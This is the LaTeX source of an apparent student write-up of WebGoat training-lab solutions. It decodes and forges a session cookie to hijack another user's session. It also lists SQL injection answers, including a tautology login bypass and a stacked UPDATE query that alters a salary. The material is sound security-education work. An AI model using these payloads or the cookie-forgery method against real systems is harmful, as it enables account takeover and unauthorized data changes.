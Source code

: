 \documentclass[
	letterpaper, %
	10pt, %
	unnumberedsections, %
	twoside, %
]{APAAssignment}
\begin{document}
\begin{appendices}
The start is the same for both hashes:
NmQ2YzcyNDg1NTU2NDY3MjYyNjg

There are some '=' signs indicating Base64 encodig:
Decoding to utf-8 (HEX) using https://www.base64decode.org/
webgoat: 6d6c724855564672626874616f67626577
admin:     6d6c72485556467262686e696d6461

The above in plaintext using https://planetcalc.com/ gives:
webgoat: mlrHUVFrbhtaogbew
admin:    mlrHUVFrbhnimda

Revealing the usernames in reverse, meaning that Tom' cookie must be:
plaintext: mlrHUVFrbhmot
Hex:  6d6c72485556467262686d6f74
Base64: NmQ2YzcyNDg1NTU2NDY3MjYyNjg2ZDZmNzQ=

Spoofing the endpoint: 

\begin{figure} %
	\texttt{[image: Pasted image 20240826142028.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}

\begin{figure} %
	\texttt{[image: Pasted image 20240826142049.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}

\section{4 Injection}
\subsection{4.1 SQL Injection}
Solutions for various parts:

(2) SELECT * from employees where first_name='Bob' 
(3) UPDATE employees SET  department='Sales' WHERE first_name = 'Tobi'
(4) ALTER TABLE employees ADD phone varchar(20)
(5)  GRANT ALL ON grant_rights TO unauthorized_user
(9)
\begin{figure} %
	\texttt{[image: Pasted image 20240826154614.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}


(10) SELECT * From user_data WHERE Login_Count = 0 and userid= true
(11) Employee Name: ' OR 1 = 1; --  TAN: ' '
(12) '; UPDATE employees SET salary=99999 WHERE first_name='John

\begin{figure} %
	\texttt{[image: Pasted image 20240826162409.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}



\end{appendices}
\end{document}
